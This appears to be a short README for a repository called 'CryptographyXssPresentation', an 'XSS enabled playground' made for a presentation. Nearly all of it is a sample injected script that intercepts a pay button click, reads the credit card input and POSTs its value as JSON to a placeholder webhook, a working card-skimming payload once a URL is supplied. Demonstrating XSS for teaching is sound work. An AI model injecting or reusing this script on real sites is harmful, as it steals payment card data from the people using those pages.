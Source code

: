 # CryptographyXssPresentation
## An XSS enabled playground

#

Sample Script:
```javascript
<p><script>
    var payBtn = document.getElementById("payBtn");

    payBtn.addEventListener("click", function(event)
    {
        event.preventDefault();
        
        var creditCard = document.getElementById("creditInput");
        const request = new XMLHttpRequest();
        request.open("POST", "Some Webhook");
        request.setRequestHeader('Content-type', 'application/json');
        const params = {
            content: creditCard.value
        }
        request.send(JSON.stringify(params));
    })
</script>
```
